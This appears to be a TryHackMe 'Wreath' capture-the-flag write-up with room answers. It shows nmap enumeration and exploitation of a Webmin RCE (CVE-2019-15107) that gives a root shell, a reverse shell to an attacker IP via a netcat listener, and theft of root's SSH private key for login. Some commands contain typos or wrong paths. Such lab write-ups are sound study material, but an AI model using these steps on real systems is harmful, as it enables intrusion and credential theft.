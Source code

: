 # TryHackMe - Wreath

[Room link](https://tryhackme.com/room/wreath)

--- 

 ## Task 1 - 4
  
**Just read, understand contents and complete**

--- 

## Task 5

Enumeration 

```bash
$ sudo nmap -sS -p0-14999 -oN nmap-0-to-14999.txt <target_ip>
[...]
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
443/tcp   open  https
10000/tcp open  snet-sensor-mgmt

$ sudo nmap -sS -F -O -oN nmap-os.txt <target_ip>
[...]
Aggressive OS guesses: Linux 3.10 - 3.13 (90%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Adtran 424RG FTTH gateway (86%), Linux 2.6.32 (86%)
No exact OS matches for host (test conditions non-ideal).

# Check OS (aggressive scan)
$ sudo nmap -sS -A nmap-os.txt <target_ip>
[...]
80/tcp    open   http       Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)

# Check server web redirection
$ curl http://<target_ip>/                                                                          
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>302 Found</title>
</head><body>
<h1>Found</h1>
<p>The document has moved <a href="https://thomaswreath.thm">here</a>.</p>
</body></html>

# Update /etc/hosts
$ echo "<target_ip> thomaswreath.thm" | sudo tee -a /etc/hosts 

# Reload the webpage. Check Thomas' mobile phone number
$ curl --insecure https://thomaswreath.thm/ | grep '[0-9]\{3\}[ -]\?[0-9]\{3\}[ -]\?[0-9]\{4\}'

# Find highest open port version
$ sudo nmap -sV -p10000 <target_ip>

# Check CVE exploit about MiniServ
$ searchsploit -w webmin 1.890
------------------------------------------------------------------------------------------------------------------------------------ --------------------------------------------
 Exploit Title                                                                                                                      |  URL
------------------------------------------------------------------------------------------------------------------------------------ --------------------------------------------
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit)                                                                       | https://www.exploit-db.com/exploits/47330
------------------------------------------------------------------------------------------------------------------------------------ --------------------------------------------
$ curl https://www.exploit-db.com/exploits/47330 | grep -i CVE
```

1. How many of the first 15000 ports are open on the target?

**4**

2. What OS does Nmap think is running?

**CentOS**

3. Open the IP in your browser -- what site does the server try to redirect you to?

**https://thomaswreath.thm/**

4. You will have noticed that the site failed to resolve. Looks like Thomas forgot to set up the DNS!

**Update /etc/hosts**

5. Read through the text on the page. What is Thomas' mobile phone number?

**447821548812**

6. Look back at your service scan results: what server version does Nmap detect as running here?

**MiniServ 1.890 (Webmin httpd)**

7. What is the CVE number for this exploit?

**CVE-2019-15107**

---

## Task 6

```bash
# After do instructions run exploit
$ $ ./CVE-2019-15107.py <target_ip>
[...]
$ whoami
root

# Shell stabilization (on exploit pseudoshell)
$ shell 
[*] Starting the reverse shell process
[*] For UNIX targets only!
[*] Use 'exit' to return to the pseudoshell at any time
Please enter the IP address for the shell: <attacker_ip>
Please enter the port number for the shell: <port_listener>

[*] Start a netcat listener in a new window (nc -lvnp 12345) then press enter.

# On the nc listener
sh-4.4# 

# Check root's hash
sh-4.4# cat/etc/passwd

# Copy content of /root/.ssh/id_rsa
sh-4.4# cat /etc/.ssh/id_rsa #Copy the content
[...]
# On the attacker machine
$ echo "<id_rsa_content>" > id_rsa_wreath
$ chmod 600 id_rsa_wreath

# Connect us to the target machine
$ ssh -i id_rsa_wreath root@<target_ip>
$ whoami
root
```

1. Run the exploit and obtain a pseudoshell on the target!

**Just execut the python exploit**

2. Which user was the server running as?

**root**

3. What is the root user's password hash?

**Check content of /etc/passwd**

4. What is the full path to this file?

**/root/.ssh/id_rsa**

---

## Task 7

1. Which type of pivoting creates a channel through which information can be sent hidden inside another protocol?

**Tunnelling**

2. Which Metasploit Framework Meterpreter command can be used to create a port forward?

**portfwd**

---

## Task 8

